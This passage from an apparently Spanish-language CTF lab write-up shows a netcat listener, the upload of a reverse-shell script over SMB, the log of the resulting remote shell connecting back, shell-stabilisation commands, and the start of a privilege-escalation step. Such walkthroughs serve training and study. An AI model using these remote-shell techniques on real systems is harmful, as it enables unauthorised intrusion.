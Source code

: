 ```shell
nc -lvnp <PORT>
```

Y ahora vamos a subirlo de esta forma para que se ejecute.

```shell
put neopro.sh
```

Ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.3] 58864
bash: cannot set terminal process group (45): Inappropriate ioctl for device
bash: no job control in this shell
neopro@f0f84f7c54a9:/srv/smb$ whoami
whoami
neopro
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user trinity

Si listamos un poco el sistema, veremos un archivo interesante en la siguiente ruta:

```shell
ls -la /var/www/staff.login/
```

Info:

```
total 40
drwxr-xr-x 4 www-data www-data 4096 Sep 12 10:57 .
drwxr-xr-x 1 root     root     4096 Sep 12 09:53 ..
drwxr-xr-x 3 www-data www-data 4096 Sep 12 09:59 assets
-rwxr-xr-x 1 www-data www-data  851 Sep 12 09:58 home.php
drwxr-xr-x 2 www-data www-data 4096 Sep 12 10:56 img
-rwxr-xr-x 1 www-data www-data 1064 Sep 12 09:58 index.php
-rwxr-xr-x 1 www-data www-data   79 Sep 12 09:58 logout.php
-rwxr-xr-x 1 www-data www-data 1077 Sep 12 09:58 profile.php
-rwxr-xr-x 1 www-data www-data 1282 Sep 12 10:57 users.php
```
